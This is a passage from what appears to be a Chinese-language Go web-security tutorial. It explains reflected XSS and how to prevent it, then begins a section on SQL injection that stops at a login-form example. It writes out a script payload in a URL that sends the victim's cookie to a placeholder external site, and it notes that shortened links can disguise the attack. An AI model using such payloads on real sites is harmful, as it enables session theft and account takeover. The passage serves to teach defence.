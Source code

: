 Web 应用未对用户提交请求的数据做充分的检查过滤，允许用户在提交的数据中掺入 HTML 代码 (最主要的是 “>”、“<”)，并将未经转义的恶意代码输出到第三方用户的浏览器解释执行，是导致 XSS 漏洞的产生原因。

接下来以**反射性 XSS** 举例说明 XSS 的过程：现在有一个网站，根据参数输出用户的名称，例如访问 url：`http://127.0.0.1/?name=astaxie`，就会在浏览器输出如下信息：

~~~html
hello astaxie
~~~

如果我们传递这样的 `url：http://127.0.0.1/?name=<script>alert('astaxie,xss')</script>`， 这时你就会发现浏览器跳出一个弹出框，这说明站点已经存在了 XSS 漏洞。那么恶意用户是如何盗取 Cookie 的呢？与上类似，如下这样的 `url：http://127.0.0.1/?name=<script>document.location.href='http://www.xxx.com/cookie?'+document.cookie</script>`，这样就可以把当前的 cookie 发送到指定的站点：www.xxx.com。你也许会说，这样的 URL 一看就有问题，怎么会有人点击！是的，这类的 URL 会让人怀疑，但如果使用短网址服务将之缩短，你还看得出来么？攻击者将缩短过后的 url 通过某些途径传播开来，不明真相的用户一旦点击了这样的 url，相应 cookie 数据就会被发送事先设定好的站点，这样子就盗得了用户的 cookie 信息，然后就可以利用 `Websleuth` 之类的工具来检查是否能盗取那个用户的账户。

## 3.3 如何预防 XSS

答案很简单，**坚决不要相信用户的任何输入**，并过滤掉输入中的所有特殊字符。这样就能消灭绝大部分的 XSS 攻击。

目前防御 XSS 主要有如下几种方式：

1. 过滤特殊字符；

   避免 XSS 的方法之一主要是将用户所提供的内容进行过滤，Go 语言提供了 HTML 的过滤函数：text/template 包下面的 HTMLEscapeString、JSEscapeString 等函数。

2. 使用 HTTP 头指定类型：`w.Header().Set("Content-Type","text/javascript")` 这样就可以让浏览器解析 JavaScript 代码，而不会是 html 输出。

# 4 避免 SQL 注入

SQL 注入攻击（SQL Injection），简称注入攻击，是 Web 开发中最常见的一种安全漏洞。可以用它来从数据库获取敏感信息，或者利用数据库的特性执行添加用户，导出文件等一系列恶意操作，甚至有可能获取数据库乃至系统用户最高权限。

而造成 SQL 注入的原因是因为程序没有有效过滤用户的输入，使攻击者成功地向服务器提交恶意的 SQL 查询代码，程序在接收后错误的将攻击者的输入作为查询语句的一部分执行，导致原始的查询逻辑被改变，额外的执行了攻击者精心构造的恶意代码。

SQL 注入是危害相当大的安全漏洞。所以对于我们平常编写的 Web 应用，应该对于每一个小细节都要非常重视，**细节决定命运，生活如此**，编写 Web 应用也是这样。

## 4.1 SQL 注入示例

很多 Web 开发者没有意识到 SQL 查询是可以被篡改的，从而把 SQL 查询当作可信任的命令。殊不知，SQL 查询是可以绕开访问控制，从而绕过身份验证和权限检查的。更有甚者，有可能通过 SQL 查询去运行主机系统级的命令。

下面将通过一些真实的例子来详细讲解 SQL 注入的方式。

考虑以下简单的登录表单：

~~~html
<form action="/login" method="POST">
<p>Username: <input type="text" name="username" /></p>
<p>Password: <input type="password" name="password" /></p>
<p><input type="submit" value="登陆" /></p>
</form>
~~~
